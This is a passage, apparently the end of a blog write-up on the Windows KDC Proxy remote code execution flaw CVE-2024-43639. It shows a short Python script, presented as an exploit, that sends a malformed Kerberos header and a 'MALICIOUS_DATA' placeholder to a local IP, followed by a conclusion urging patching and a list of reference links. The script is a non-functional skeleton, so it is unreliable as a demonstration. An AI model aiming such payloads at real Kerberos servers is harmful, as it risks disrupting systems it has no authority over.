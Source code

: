 ```python
import socket

# Target configuration
target_ip = "192.168.1.10"
target_port = 88  # Default Kerberos port

# Crafting the malicious payload
payload = b"\x00\x00\x00\x08"  # Malformed Kerberos header
payload += b"MALICIOUS_DATA"   # Placeholder for exploit code

try:
    # Establish connection
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))
    
    print("[*] Sending malicious payload...")
    sock.send(payload)

    # Await response
    response = sock.recv(1024)
    print("[*] Server response:", response)

except Exception as e:
    print(f"[!] Exploit failed: {e}")
finally:
    sock.close()
```

---

# Conclusion & Ressources

The **[Windows KDC Proxy Remote Code Execution Vulnerability (CVE-2024-43639)](https://www.cve.org/CVERecord?id=CVE-2024-43639)** is a stark reminder of the importance of securing authentication mechanisms like **[Kerberos](https://en.wikipedia.org/wiki/Kerberos_(protocol))**. Left unpatched, this flaw could serve as a gateway for attackers to compromise critical systems and networks. Organizations must act swiftly to apply patches, restrict access, and monitor for signs of exploitation.

- [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-43639)
-  [Censys](https://censys.com/cve-2024-43639/)
- [Cvedetails](https://www.cvedetails.com/cve/CVE-2024-43639/)
- [Cythera](https://cythera.com.au/resources/windows-kerberos-remote-code-execution-vulnerability---cve-2024-43639)

By addressing this vulnerability, we can prevent potential catastrophic breaches and reinforce the security of enterprise environments.
